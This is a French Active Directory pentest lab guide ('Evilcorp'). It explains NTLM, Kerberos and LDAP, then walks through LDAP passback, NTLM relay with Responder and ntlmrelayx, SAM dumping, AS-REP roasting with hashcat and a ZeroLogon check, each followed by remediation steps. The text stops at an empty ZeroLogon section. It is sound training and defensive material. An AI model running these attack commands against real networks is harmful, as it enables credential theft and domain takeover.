# Présentation du Lab

Evilcorp est un lab qui simule un environnement Active Directory constitué d'un domaine composé de 4 machines regroupées sur 3 sous-réseaux. Il a pour but de permettre aux utilisateurs d'énumérer, d'exploiter et de chainer différentes vulnérabilités. Pour cela, les utilisateurs débuteront dans un contexte non authentifié (sans accès au domaine), puis évolueront vers un scénario assumed breach, dans lequel ils disposeront d'un compte standard à partir duquel ils seront amener à exploiter divers vecteurs d'attaques afin d'élever leurs privilèges, se déplacer latéralement sur le réseau, jusqu'à compromettre le domaine. Enfin, pour chaque vecteur d’attaque exploité, des mesures de remédiation seront également présentées afin de comprendre comment prévenir ces attaques.  

---

# Architecture



Le lab est constitué des 3 sous-réseaux suivants:
- 192.168.24.0/24: Ce sous-réseau regroupe les machines DC01, WS01, ainsi que la machine de l'attaquant.  
- 172.16.48.0/24: Ce sous-réseau est composé des machines DC01, WS01 et WS02.
- 10.10.10.0/24: Ce sous-réseau regroupe les machines DC01, WS02 et WS03.

Les machines du domaine sont:  
- DC01 (Windows Server 2022) représente le contrôleur de domaine
- WS01 et WS02 sont deux postes de travail utilisant respectivement Windows 11 Pro et Enterprise
- WS03 est une machine Ubuntu 24.04

---

# Attaques

Le lab est composé de 05 scénarios ainsi que plusieurs vecteurs d'attaques dont:  

- Relai NTLM
- LDAP Passback
- Asreproasting
- Kerberoasting
- Exploitation des ACLs
- Targeted Kerberoasting
- Exploitation de LAPS
- Exploitation de gMSA
- Password spraying
- User as pass
- Pass the hash
- Pass the ticket
- Pass the key
- Overpass the hash
- Silver ticket
- Golden ticket
- DCSync
- Token impersonation
- Identifiants mis en cache
- Exploitation de MSSQL
- Exploitation de keytab
- Délégation Kerberos
- Exploitation des partages réseau
- Elévation de privilèges
- Extraction de secrets (LSA, DPAPI)
- Double Pivoting
- Port Forwarding
- NoPac
- ZeroLogon

Le framework utilisé est le [Mitre Att&ck](https://attack.mitre.org/).  

---

# Sommaire

- [Présentation du Lab](#présentation-du-lab)
- [Architecture](#architecture)
- [Attaques](#attaques)
- [Sommaire](#sommaire)
- [Fondamentaux](#fondamentaux)
   * [Structure de l'Active Directory](#structure-de-lactive-directory)
      + [Ressources](#ressources)
   * [NTLM](#ntlm)
      + [Ressources](#ressources-1)
   * [Kerberos](#kerberos)
      + [Ressources](#ressources-2)
   * [LDAP](#ldap)
      + [Ressources](#ressources-3)
   * [Résumé](#résumé)
- [Scénario 1](#scénario-1)
   * [LDAP Passback](#ldap-passback)
      + [Méthodologie](#méthodologie)
      + [Recommandations](#recommandations)
      + [Ressources](#ressources-4)
   * [Relai NTLM](#relai-ntlm)
      + [Méthodologie](#méthodologie-1)
      + [Recommandations](#recommandations-1)
      + [Ressources](#ressources-5)
   * [AS-REP Roasting](#as-rep-roasting)
      + [Méthodologie](#méthodologie-2)
      + [Recommandations](#recommandations-2)
      + [Ressources](#ressources-6)
   * [ZeroLogon](#zerologon)
      + [Recommandations](#recommandations-3)
      + [Ressources](#ressources-7)
   * [Résumé](#résumé-1)
- [Scénario 2](#scénario-2)
   * [Enumération du Domaine](#enumération-du-domaine)
      + [Méthodologie](#méthodologie-3)
   * [BloodHound-CE](#bloodhound-ce)
      + [Ressources](#ressources-8)
   * [Enumération des Attributs Info et Description](#enumération-des-attributs-info-et-description)
      + [Méthodologie](#méthodologie-4)
      + [Recommandations](#recommandations-4)
      + [Ressources](#ressources-9)
   * [Enumération de la Politique de Mots de Passe](#enumération-de-la-politique-de-mots-de-passe)
      + [Méthodologie](#méthodologie-5)
      + [Ressources](#ressources-10)
   * [Password Spraying](#password-spraying)
      + [Méthodologie](#méthodologie-6)
      + [Recommandations](#recommandations-5)
      + [Ressources](#ressources-11)
   * [Enumération des DACLs](#enumération-des-dacls)
      + [Méthodologie](#méthodologie-7)
      + [Recommandations](#recommandations-6)
      + [Ressources](#ressources-12)
   * [Targeted Kerberoasting](#targeted-kerberoasting)
      + [Méthodologie](#méthodologie-8)
      + [Recommandations](#recommandations-7)
      + [Ressources](#ressources-13)
   * [Exploitation de GMSA](#exploitation-de-gmsa)
      + [Méthodologie](#méthodologie-9)
      + [Recommandations](#recommandations-8)
      + [Ressources](#ressources-14)
   * [Pass the Hash](#pass-the-hash)
      + [Méthodologie](#méthodologie-10)
      + [Recommandations](#recommandations-9)
      + [Ressources](#ressources-15)
   * [Résumé](#résumé-2)
- [Scénario 3](#scénario-3)
   * [User As Pass](#user-as-pass)
      + [Méthodologie](#méthodologie-11)
   * [Exploitation des Partages Réseau](#exploitation-des-partages-réseau)
      + [Méthodologie](#méthodologie-12)
      + [Recommandations](#recommandations-10)
      + [Ressources](#ressources-16)
   * [Exploitation de LAPS](#exploitation-de-laps)
      + [Méthodologie](#méthodologie-13)
      + [Recommandations](#recommandations-11)
      + [Ressources](#ressources-17)
   * [Exploitation de la Mise en Cache Des Identifiants](#exploitation-de-la-mise-en-cache-des-identifiants)
      + [Méthodologie](#méthodologie-14)
      + [Recommandations](#recommandations-12)
      + [Ressources](#ressources-18)
   * [Résumé](#résumé-3)
- [Scénario 4](#scénario-4)
   * [Single Pivoting](#single-pivoting)
      + [Méthodologie](#méthodologie-15)
      + [Ressources](#ressources-19)
   * [Usurpation de Tokens](#usurpation-de-tokens)
      + [Méthodologie](#méthodologie-16)
      + [Recommandations](#recommandations-13)
      + [Ressources](#ressources-20)
   * [Résumé](#résumé-4)
- [Scénario 5](#scénario-5)
   * [Enumération de l'historique de commandes PowerShell](#enumération-de-lhistorique-de-commandes-powershell)
      + [Méthodologie](#méthodologie-17)
      + [Recommandations](#recommandations-14)
      + [Ressources](#ressources-21)
   * [Double Pivoting](#double-pivoting)
      + [Méthodologie](#méthodologie-18)
      + [Ressources](#ressources-22)
   * [Enumération des Machines](#enumération-des-machines)
      + [Méthodologie](#méthodologie-19)
      + [Recommandations](#recommandations-15)
      + [Ressources](#ressources-23)
   * [Pass the Ticket](#pass-the-ticket)
      + [Méthodologie](#méthodologie-20)
      + [Recommandations](#recommandations-16)
      + [Ressources](#ressources-24)
   * [Pass the Key](#pass-the-key)
      + [Méthodologie](#méthodologie-21)
      + [Recommandations](#recommandations-17)
      + [Ressources](#ressources-25)
   * [DCSync](#dcsync)
      + [Méthodologie](#méthodologie-22)
      + [Recommandations](#recommandations-18)
      + [Ressources](#ressources-26)
   * [Golden Ticket](#golden-ticket)
      + [Méthodologie](#méthodologie-23)
      + [Recommandations](#recommandations-19)
      + [Ressources](#ressources-27)
   * [Résumé](#résumé-5)
- [Scénario 6](#scénario-6)
   * [Kerberoasting](#kerberoasting)
      + [Méthodologie](#méthodologie-24)
      + [Recommandations](#recommandations-20)
      + [Ressources](#ressources-28)
   * [KRB_AP_ERR_SKEW](#krb_ap_err_skew)
      + [Méthodologie](#méthodologie-25)
   * [Silver Ticket](#silver-ticket)
      + [Méthodologie](#méthodologie-26)
      + [Recommandations](#recommandations-21)
      + [Ressources](#ressources-29)
   * [Procédures Stockées de MSSQL](#procédures-stockées-de-mssql)
      + [Méthodologie](#méthodologie-27)
      + [Recommandations](#recommandations-22)
      + [Ressources](#ressources-30)
      + [Exploitation du Privilège SeImpersonate](#exploitation-du-privilège-seimpersonate)
      + [Méthodologie](#méthodologie-28)
      + [Recommandations](#recommandations-23)
      + [Ressources](#ressources-31)
   * [NoPac](#nopac)
      + [Méthodologie](#méthodologie-29)
      + [Recommandations](#recommandations-24)
      + [Ressources](#ressources-32)
- [Ressources Supplémentaires](#ressources-supplémentaires)

# Fondamentaux

Cette section couvre la structure d'Active Directory ainsi que le fonctionnement des protocoles NTLM, Kerberos et LDAP.

## Structure de l'Active Directory

L'**Active Directory** est une solution créée par Microsoft ayant pour but de centraliser et de simplifier la gestion d'un parc informatique. Il permet notamment de centraliser les processus d'authentification et d'autorisation au sein d'un domaine.  

Un **domaine** est un regroupement logique d'objets tels que des utilisateurs, des ordinateurs, des groupes ou encore des imprimantes. Ces objets possèdent des propriétés appelées [attributs](https://learn.microsoft.com/fr-fr/windows/win32/adschema/attributes-all).  

Au sein d'un domaine se trouve le **contrôleur de domaine**. Il s'agit d'un serveur spécial assurant notamment l'authentification ainsi que le stockage des informations nécessaires à la gestion des autorisations.  

C'est également sur ce serveur que se trouve la base de données **NTDS.dit** (**N**ew **T**echnology **D**irectory **S**ervices) dans laquelle est stockée les informations du domaine comme par exemple les comptes utilisateurs, les groupes ainsi que les hashs des mots de passe des utilisateurs. Une compromission du contrôleur du domaine engendre généralement une compromission de l'ensemble du domaine.  

Par ailleurs, Active Directory repose sur une **[structure hiérarchique](https://www.it-connect.fr/chapitres/domaine-arbre-et-foret/)** dans laquelle vous aurez des domaines, des arbres ainsi que des forêts. Un **arbre** (tree) est un ensemble de domaines partageant le même espace de nom tandis qu'une **forêt** (forest) est un ensemble d'arbres. Afin de faciliter l'authentification et l'accès aux ressources entre les arbres et forêts, Active Directory utilise des relations d'approbations ou trusts en anglais.  

Enfin, il est important de noter que Active Directory comprend différents [rôles](https://www.it-connect.fr/chapitres/les-differents-roles-adds-adfs-adcs/) tels que **[ADDS](https://learn.microsoft.com/fr-fr/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domain-services-overview)** (Active Directory Domain Services) qui assure l'authentification, le contrôle d'accès aux ressources ainsi que la gestion des objets du domaine. Il y a aussi l'**[ADCS](https://learn.microsoft.com/fr-fr/windows-server/identity/ad-cs/active-directory-certificate-services-overview)** (Active Directory Certificate Services) qui est un autre rôle assurant la gestion des certificats numériques utilisés pour l'authentification ou le chiffrement par exemple.  





### Ressources

- [Introduction to Active Directory](https://academy.hackthebox.com/course/preview/introduction-to-active-directory)
- [Active Directory Basics](https://tryhackme.com/room/winadbasics)

## NTLM

**NTLM** (New Technology LAN Manager) est un protocole d'authentification de type challenge/response (défi/réponse) qui permet de vérifier l'identité d'un utilisateur sans transmettre son mot de passe en clair sur le réseau.  

Il existe deux versions de NTLM: NTLMv1 et NTLMv2.  

**NTLMv1** est un protocole d'authentification qui repose sur l'algorithme de chiffrement DES qui est non sécurisé et obsolète.  

Quant à **NTLMv2**, il utilise l'algorithme HMAC-MD5 au lieu de DES. De plus, il n'est pas vulnérable aux attaques par table arc-en-ciel comme c'est le cas avec NTLMv1 lorsque l'ESS est désactivé.

L'**[ESS](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/a92716d5-d164-4960-9e15-300f4eef44a8)** (Extended Session Security) est une extension de sécurité introduite par Microsoft pour renforcer l’authentification NTLM. Elle permet par exemple de prévenir les attaques par table arc-en-ciel.  

L'authentification NTLM (v2) se déroule en 3 grandes étapes:  


**1/ Negotiate**  
Le client indique au serveur qu'il souhaite s'authentifier. Au cours de cette demande d'authentification, le client envoie également au serveur des attributs de sécurité via des drapeaux (flags).  


**2/ Challenge**   
Le serveur envoie au client un challenge à résoudre. Ce challenge est une valeur aléatoire de 8 octets qui change à chaque demande d'authentification.  



**3/ Authenticate**  
Le client envoie au serveur un message contenant la réponse du challenge qu'il a reçu précédemment. Cette réponse est calculée à partir du hash de son mot de passe (encore appelé hash NT) ainsi que d'autres données comme le challenge client (valeur aléatoire générée par le client et rajoutée à la réponse NTLMv2) et le timestamp.  



Par la suite, le serveur procède à la validation de la réponse du client. Pour cela, il va recalculer la réponse en utilisant le challenge qu'il a envoyé à l'étape 2, le hash NT du client et d'autres données.  

Dans le cas d'une **authentification locale** (utilisation d'un compte local), le serveur va directement récupérer le hash NT du client dans sa base **SAM** (Security Account Manager) puis procéder à la vérification de la réponse.  

Par contre, dans le cas d'une **authentification au domaine** (utilisation d'un compte de domaine), le serveur va envoyer le challenge ainsi que la réponse au contrôleur de domaine en utilisant le protocole Netlogon. Le contrôleur de domaine va ensuite récupérer le hash NT du client dans sa base **NTDS.dit** puis vérifier que la réponse est bien valide. Une fois la vérification effectuée, le contrôleur de domaine retourne au serveur le résultat de cette vérification. Si la réponse est valide, le serveur accepte l'authentification sinon il la refuse.  

Il est important de souligner que NTLM a été [déprécié](https://learn.microsoft.com/en-us/windows/whats-new/deprecated-features#deprecated-features) depuis mi-2024 par Microsoft, notamment en raison des différentes attaques auxquelles il est exposé.



### Ressources

- [NTLM Fully Explained for Security Professionals](https://thievi.sh/blog/ntlm-fully-explained-for-security-professionals/)
- [Closing the Door on Net-NTLMv1](https://cloud.google.com/blog/topics/threat-intelligence/net-ntlmv1-deprecation-rainbow-tables)
- [Cracking NTLMv1 SSP With Rainbow Tables](https://www.sprocketsecurity.com/blog/cracking-ntlmv1-ssp-with-rainbow-tables)
- [NTLMv1 vs NTLMv2](https://www.praetorian.com/blog/ntlmv1-vs-ntlmv2/)
- [Restrict NTLM: Incoming NTLM traffic](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-incoming-ntlm-traffic)

## Kerberos

**Kerberos** (tcp/88, udp/88) est un protocole d'authentification permettant de vérifier l'identité d'un utilisateur à l'aide de tickets.  

Une authentification Kerberos se déroule en 6 étapes:  



**1/ KRB_AS_REQ**  
Au cours de cette étape, l'utilisateur va envoyer son nom d'utilisateur ainsi qu'un timestamp (horodatage) chiffré avec un secret dérivé de son mot de passe (hash NT) au centre de distribution de clés ou **K**ey **D**istribution **C**enter (KDC) en anglais. Le **KDC** est le serveur chargé de l'authentification ainsi que de la distribution des clés de session et des tickets.  



**2/ KRB_AS_REP**  
Le KDC va ensuite tenter de déchiffrer le timestamp chiffré afin de valider l'identité de l'utilisateur. Si cela fonctionne, le KDC envoie à l'utilisateur un **TGT** (Ticket Granting Ticket) chiffré avec le hash NT du compte **krbtgt**, ainsi qu'une clé de session chiffrée avec le hash NT de l'utilisateur.
Le TGT contient une copie de la clé de session ainsi que le PAC. Le **PAC** (**P**rivilege **A**ttribute **C**ertificate) est une structure de données qui contient des informations sur l'utilisateur, telles que son identité (Security IDentifier ou SID) ainsi que les groupes auxquels il appartient.  



**3/ KRB_TGS_REQ**  
L'utilisateur déchiffre la clé de session en utilisant son hash NT, puis procède à la demande d'un ticket de service (ST) auprès du 𝗧𝗚𝗦 (Ticket Granting Service).  
Pour cela, il envoie au TGS, le TGT reçu précédemment, le nom du service (Service Principal Name ou **SPN**) auquel il souhaite accéder ainsi qu'un authentifiant (**authenticator**) qui est chiffré avec la clé de session contenue dans le TGT.  



**4/ KRB_TGS_REP**  
Le TGS va utiliser la clé de session contenue dans le TGT pour déchiffrer l'authentifiant envoyé par l'utilisateur. Après cela, il va vérifier que les données contenues dans l'authentifiant correspondent à celles contenues dans le TGT.  
Si cela est bon, il enverra à l'utilisateur un ticket de service (**ST**) chiffré avec le hash NT du compte de service ainsi qu'une nouvelle clé de session chiffrée avec la clé de session contenue dans le TGT.
Le ticket de service contient entre autre une copie de la nouvelle clé de session, le SPN ainsi que le PAC.  



**5/ KRB_AP_REQ**  
L'utilisateur envoie le ticket de service ainsi qu'un nouvel authentifiant chiffré avec la clé de session contenue dans le ST au service hébergeant la ressource à laquelle il souhaite accéder.  




**6/ KRB_AP_REP**  
Le service déchiffre le ticket de service (ST) en utilisant son hash NT. Ensuite, il utilise la clé de session contenue dans le ST pour déchiffrer l'authentifiant de l'utilisateur et vérifier que les informations correspondent à celles contenues dans le ST. Finalement, il accepte ou refuse l'accès à la ressource en fonction des privilèges de l'utilisateur.  



### Ressources

- [The Last Kerberos Read You’ll Ever Need](https://ericesquivel.github.io/posts/kerberos)
- [Kerberos en Active Directory](https://beta.hackndo.com/kerberos/) 
- [Guide complet sur le fonctionnement de Kerberos](https://www.vaadata.com/fr/blog/authentification-kerberos-principes-et-fonctionnement/)


## LDAP

**LDAP** (**L**ightweight **D**irectory **A**ccess **P**rotocol) est un protocole qui permet d'interargir avec un service d'annuaire.  

Un 𝘀𝗲𝗿𝘃𝗶𝗰𝗲 𝗱'𝗮𝗻𝗻𝘂𝗮𝗶𝗿𝗲 est une base de données qui va stocker des informations sur les utilisateurs, les groupes, les ordinateurs, les imprimantes.  

LDAP peut être utilisé pour rechercher, ajouter, supprimer ou modifier un objet dans l'annuaire. Il peut être également utilisé pour l'authentification simple ou SASL.  

L'𝗮𝘂𝘁𝗵𝗲𝗻𝘁𝗶𝗳𝗶𝗰𝗮𝘁𝗶𝗼𝗻 𝘀𝗶𝗺𝗽𝗹𝗲 permet à un utilisateur de s'authentifier à LDAP en utilisant l'un des 3 modes suivants:  
- 𝗔𝗻𝗼𝗻𝘆𝗺𝗼𝘂𝘀: L'utilisateur accède au contenu de l'annuaire sans s'authentifier.
- 𝗨𝗻𝗮𝘂𝘁𝗵𝗲𝗻𝘁𝗶𝗰𝗮𝘁𝗲𝗱: L'utilisateur accède au contenu de l'annuaire en utilisant uniquement un Distinguished Name (DN), sans fournir de mot de passe. Le Distinguished Name (DN) est un identifiant unique permettant d'identifier un objet au sein de l'annuaire.
- 𝗨𝘀𝗲𝗿𝗻𝗮𝗺𝗲/𝗣𝗮𝘀𝘀𝘄𝗼𝗿𝗱: L'utilisateur accède au contenu de l'annuaire en fournissant un DN ainsi que son mot de passe.

Par défaut, les communications LDAP (tcp/389) ne sont pas chiffrées, ce qui peut permettre à un attaquant en position de l'homme du milieu (MiTM) d'intercepter les identifiants de connexion d'un utilisateur, notamment lors d'une authentification simple bind (username/password).  

L'𝗮𝘂𝘁𝗵𝗲𝗻𝘁𝗶𝗳𝗶𝗰𝗮𝘁𝗶𝗼𝗻 𝗦𝗔𝗦𝗟 (Simple Authentication and Security Layer) est un framework qui permet à LDAP d'utiliser différents mécanismes d'authentification, tels que NTLM ou Kerberos. Cela permet par exemple d'éviter de transmettre le mot de passe de l'utilisateur en clair sur le réseau.  

Finalement, il existe deux implémentations populaires de LDAP: 𝗢𝗽𝗲𝗻𝗟𝗗𝗔𝗣 qui est une implémentation open-source de LDAP sur Linux, et 𝗠𝗶𝗰𝗿𝗼𝘀𝗼𝗳𝘁 𝗔𝗰𝘁𝗶𝘃𝗲 𝗗𝗶𝗿𝗲𝗰𝘁𝗼𝗿𝘆 qui utilise LDAP comme service d'annuaire. Cependant, il est important de noter que l'Active Directory n'est pas LDAP. En effet, LDAP est un protocole utilisé par l'Active Directory.  



### Ressources

- [LDAP client authentication methods](https://www.ibm.com/support/pages/ldap-client-authentication-methods)
- [OpenLDAP Administration](https://www.openldap.org/doc/admin24/security.html)
- [LDAP Signing](https://www.aduneo.com/acces/la-desactivation-par-microsoft-du-ldap-non-signe-menace-les-connexions-non-chiffrees-a-active-directory)


## Résumé

Dans cette section, nous avons abordé les fondamentaux d'Active Directory: 

- Sa structure et ses composants (objets, rôles, forêts, arbres, trusts)
- L'authentification NTLM et Kerberos
- Le protocole LDAP

Comme vous le verrez, ces notions seront essentielles pour mieux comprendre les différents vecteurs d’attaque présentés dans les scénarios suivants. 

---

# Scénario 1

Le but de ce scénario est de partir d'un contexte non authentifié puis d'obtenir un accès initial au domaine. Pour cela, vous réaliserez des attaques telles que le relai NTLM, le Passback ainsi que l'AS-REP Roasting.  

## LDAP Passback

Le passback est une attaque qui consiste à intercepter les identifiants de connexion utilisés par un équipement, tel qu'une imprimante, en **remplaçant l'adresse IP du serveur LDAP légitime par celle de l'attaquant**. Ainsi, lorsque l'équipement tentera de s'authentifier, ses identifiants seront transmis au serveur LDAP de l'attaquant, qui pourra ensuite les utiliser afin d'obtenir un accès initial au domaine.

### Méthodologie

Pour réaliser cette attaque, vous pouvez procéder comme suit:  

1/ Effectuer un scan de ports afin de détecter les imprimantes se trouvant sur le réseau  

Un intérêt particulier sera porté aux ports `tcp/9100` et `tcp/515` qui correspondent généralement aux imprimantes.  

2/ Accéder à la console d'administration de l'imprimante  

Cela peut se faire par exemple via l'utilisation d'identifiants par défaut. Par ailleurs, si la console d'administration utilise HTTP plutôt que HTTPS, un attaquant en position de l'[homme du milieu](https://www.youtube.com/watch?v=qh0h8S5e7F4) pourrait intercepter les identifiants de connexion transmis en clair lors de l'authentification.  



3/ Lancer un serveur LDAP sur la machine attaquante.  



4/ Modifier l'adresse IP du serveur LDAP de l'imprimante avec l'addresse IP de l'attaquant.  







5/ Initier une authentification vers le serveur LDAP de l'attaquant.  



6/ Intercepter les identifiants de connexions de l'utilisateur puis les rejouer dans le domaine.  



> Il est important de noter que l'étape 6 sera plus ou moins complexe en fonction du type d'authentification utilisé par LDAP. Par exemple, dans le cas d'une authentification simple bind, le nom d'utilisateur et le mot de passe sont envoyés en clair au serveur LDAP. C'est notamment le scénario décrit dans la démonstration ci-dessus. 

### Recommandations

- Changez le mot de passe par défaut de la console d'administration de l'imprimante avec un mot de passe robuste. L'ANSSI recommande 20+ caractères pour les mots de passe générés à partir d'un gestionnaire de mots de passe.
- Privilégiez l'utilisation de LDAPS si elle est supportée par l'imprimante.
- Limitez les droits et privilèges du compte LDAP configuré pour l'imprimante au strict besoin opérationnel.
- Utilisez HTTPS sur la page d'authentification de l'imprimante afin de prévenir les attaques par l'homme du milieu.

### Ressources

- [How to Hack Through a Pass-Back Attack](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack)
- [LDAP passback attack](https://www.acceis.fr/ldap-pass-back-attack/)

## Relai NTLM

Le relai NTLM ([T1557.001](https://attack.mitre.org/techniques/T1557/001/)) est une attaque de l'homme du milieu qui permet à un attaquant d'**intercepter et de relayer l'authentification NTLM d'un utilisateur vers une machine**.  

Le but de cette attaque est d'obtenir une session en tant que l'utilisateur afin de réaliser des actions en son nom (ex: accéder à un partage réseau).  

Le relai NTLM est une attaque assez redoutable, car elle permet à un attaquant d'obtenir un accès initial, de se déplacer latéralement sur le réseau ou encore d'élever ses privilèges **sans avoir aucune connaissance du mot de passe de la victime**. De plus, c'est une meilleure alternative à l'[attaque par empoisonnement LLMNR/NBT-NS](https://tcm-sec.com/llmnr-poisoning-and-how-to-prevent-it/) car elle ne nécessite **aucun craquage de hash**.  

Dans ce poste, l'accent sera mis sur le relai SMB. En effet, NTLM étant indépendant de la couche applicative, il est possible de l'encapsuler dans d'autres protocoles tels que HTTP par exemple.

Afin de pouvoir réaliser le relai SMB, **[le client et le serveur ne doivent pas exiger la signature SMB](https://learn.microsoft.com/fr-fr/archive/blogs/josebda/the-basics-of-smb-signing-covering-both-smb1-and-smb2)**. J'insiste sur le mot "exiger", car la signature peut être activée sans être obligatoire. Par défaut, la signature SMB est obligatoire (**required**) sur les contrôleurs de domaine. En revanche, sur les postes de travail, elle est généralement activée (**enabled**) mais pas obligatoire.  

Une **signature** est un mécanisme de sécurité ayant pour but d'assurer l'intégrité ainsi que l'authenticité des messages échangés entre le client et le serveur. Dans le cas de SMB, la négociation de la signature de la session se fait dans un mode appellé "least requirements" dans lequel la session ne sera pas signée si la signature n'est pas exigée (obligatoire) par le client et le serveur. Dans le cas échéant, la session sera signée.  

### Méthodologie

Afin de réaliser l'attaque, vous pouvez procéder comme suit:  

1/ Enumérer les machines qui n'exigent pas la signature SMB.  

```bash
nxc smb '192.168.24.0/24' -d 'evilcorp.local' --gen-relay-list relay_list.txt
```



2/ Lancer Responder sur l'interface réseau de la cible.  

```bash
cp /usr/share/responder/Responder.conf{,.bak}
sed -i 's/SMB      = On/SMB = Off/g' /usr/share/responder/Responder.conf
```



```bash
responder -I ens33 -v
```



3/ Lancer Ntlmrelayx en configurant la cible du relai NTLM avec l'option -t ou -f pour une liste de machines.  

```bash
impacket-ntlmrelayx -smb2support -socks -t '192.168.24.130' --no-http-server
```



4/ Empoisonner le réseau (LLMNR/NBT-NS/mDNS/IPv6) ou forcer une authentification de l'utilisateur/machine vers la machine attaque.  



5/ Intercepter l'authentification NTLM puis la relayer vers la machine cible.  





6/ Obtenir une session en tant que l'utilisateur ciblé.  

```bash
tail -1 /etc/proxychains4.conf 
```



```bash
proxychains4 -q nxc smb -d 'evilcorp' '192.168.24.130' -u 'm.robot' -p '' --shares
```



```bash
proxychains4 -q nxc smb -d 'evilcorp' '192.168.24.130' -u 'm.robot' -p '' --sam
```



### Recommandations

- Afin d'exiger la signature des flux SMB pour les connexions entrantes et sortantes, exécutez la cmdlet suivante avec des privilèges administrateurs:  

```powershell
Set-SmbClientConfiguration -RequireSecuritySignature $true -Confirm:$false; Set-SmbServerConfiguration -RequireSecuritySignature $true -Confirm:$false
```

- Afin d'exiger la signature LDAP, exécutez la cmdlet suivante avec des privilèges administrateurs:  

```powershell
Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters' -Name 'LDAPServerIntegrity' -Type DWord -Value 2
```

- Il est également recommandé de restreindre progressivement l'usage de NTLM au profit de Kerberos. Pour plus d'informations, consultez cet [article](https://www.it-connect.fr/comment-desactiver-le-protocole-ntlm-dans-un-domaine-active-directory/).

### Ressources

- [Relai NTLM Hackndo](https://beta.hackndo.com/ntlm-relay/)
- [SMB Relay Attack](https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/)
- [NTLM Realy THR](https://www.thehacker.recipes/ad/movement/ntlm/relay)
- [Disable LLMNR/NBT-NS/mDNS](https://projectblack.io/blog/disable-llmnr-gpo-netbios-mdns/)
- [Contrôler le comportement de la signature SMB](https://learn.microsoft.com/fr-fr/windows-server/storage/file-server/smb-signing)

## AS-REP Roasting

L'AS-REP Roasting ([T1558.004](https://attack.mitre.org/techniques/T1558/004/)) est une attaque qui consiste à demander un TGT pour les utilisateurs dont la pré-authentification Kerberos n'est pas activée (Do not require Kerberos preauthentication).  

La **pré-authentification** constitue la première étape d'une authentification Kerberos au cours de laquelle l'utilisateur va envoyer au KDC, son nom d'utilisateur (UPN) ainsi qu'un horodatage (timestamp) chiffré avec un secret dérivé de son mot de passe.  

Par défaut, la pré-authentification est activée pour tous les comptes du domaine. Cependant, elle peut être désactivée pour les services qui ne la supportent pas. Dans ce cas précis, il est possible de demander un TGT (AS_REQ) sans avoir à s'authentifier préalablement, d'où la vulnérabilité.  

En réponse, le KDC envoie à l'utilisateur un message **AS_REP** contenant un TGT ainsi qu'une clé de session chiffrée avec un secret dérivé de son mot de passe, **sans exiger de pré-authentification**. Une fois l'AS_REP obtenu, un attaquant peut tenter de retrouver le mot de passe de l'utilisateur en effectuant une attaque hors ligne sur les données chiffrées qu'il contient.  

Ceci dit, il est important de noter que la réussite de cette attaque repose principalement sur la complexité du mot de pase de l'utilisateur. En effet, plus le mot de passe est complexe, moins vous aurez de chance de le craquer.  

### Méthodologie

Afin de réaliser l'AS-REP Roasting, vous pouvez suivre les étapes suivantes:  

1/ Générer une liste valide d'utilisateurs du domaine.  

```bash
cat users.lst
```



```bash
username-anarchy --input-file users.lst | tee -a users_combo.lst
```

[Username-anarchy](https://github.com/urbanadventurer/username-anarchy) est un outil qui permet de générer des variantes possibles d'un nom d'utilisateur à partir d'un nom et/ou d'un prénom.  

```bash
kerbrute userenum --domain 'evilcorp.local' --dc 'dc01' users_combo.lst -o valid_users.txt
```



2/ Demander un TGT pour les comptes qui ne requièrent pas la pré-authentification.  

```bash
nxc ldap '192.168.24.136' -d 'evilcorp.local' -u 'users.txt' -p '' --asreproast Asreproastables.txt
```



3/ Craquer en mode hors ligne les hashs en utilisant John ou Hashcat.  

```bash
hashcat --identify Asreproastables.txt
```



```bash
hashcat -a 0 -m 18200 Asreproastables.txt /opt/lists/rockyou.txt
```






```bash
nxc smb '192.168.24.136' -d 'evilcorp.local' -u 'e.santiago' -p 'iyd86Ig-hkvudc]h;'
```



### Recommandations

- Activez la pré-authentification pour les comptes qui ne l'exigent pas. À défaut de cela, définir des mots de passe robustes (+32 caractères) pour les comptes concernés.  
- Désactivez l'algorithme de chiffrement [RC4-HMAC](https://learn.microsoft.com/en-us/windows-server/security/kerberos/detect-remediate-rc4-kerberos) afin de rendre plus chronophage les attaques par dictionnaire.
- Limitez les droits et privilèges des comptes ayant la pré-authentification désactivée au strict besoin opérationnel.  
- Auditez régulièrement les comptes qui ne requièrent pas la pré-authentification. Pour cela vous pouvez utiliser les cmdlets suivantes.

Afin de lister l'ensemble des comptes qui ne requièrent pas la pré-authentification, utilisez la cmdlet suivante:     

```powershell
Get-ADUser -Filter 'DoesNotRequirePreAuth -eq $true' -Properties DoesNotRequirePreAuth | Select-Object SamAccountName, DistinguishedName
```

Pour réactiver la pré-authentification pour un utilisateur spécifique, utilisez la cmdlet suivante (assurez-vous d'avoir les privilèges requis):  

```powershell
Set-ADAccountControl -Identity "<identity>" -DoesNotRequirePreAuth $false
```

> Identity peut être le Sam Account Name (SAN) ou le Distinguished Name (DN).

Pour réactiver la pré-authentification **pour tous les utilisateurs** qui ne l'exigent pas, utilisez la cmdlet suivante:  

```powershell
Get-ADUser -Filter 'DoesNotRequirePreAuth -eq $true' | Set-ADAccountControl -DoesNotRequirePreAuth $false
```

> Il est recommandé de réactiver progressivement la pré-authentification pour les comptes concernés afin d'éviter toute interruption de service.

### Ressources

- [Comprendre et se protéger de l’attaque ASREPRoast](https://www.it-connect.fr/securite-active-directory-comprendre-et-se-proteger-attaque-asreproast/)
- [ASREProast](https://www.thehacker.recipes/ad/movement/kerberos/asreproast)

## ZeroLogon

Zerologon ([CVE-2020-1472](https://cybersecurity.bureauveritas.com/blog/zero-logon)) est une vulnérabilité affectant l'interface RPC Netlogon Remote Protocol (MS-NRPC) du protocole NetLogon. Elle permet à un attaquant de réinitialiser le mot de passe du compte machine d'un contrôleur de domaine en exploitant une faiblesse dans le mécanisme cryptographique utilisé par MS-NRPC. Cette vulnérabilité est critique, car son exploitation peut conduire à une compromission du domaine sans disposer d'un accès initial.

```bash
nxc smb '172.16.5.5' -u '' -p '' -M zerologon
```



L'exploitation de Zerologon peut entraîner des interruptions de services importantes au sein du domaine. Il est donc recommandé de privilégier une vérification non intrusive de la vulnérabilité et d'éviter toute exploitation active.  

### Recommandations

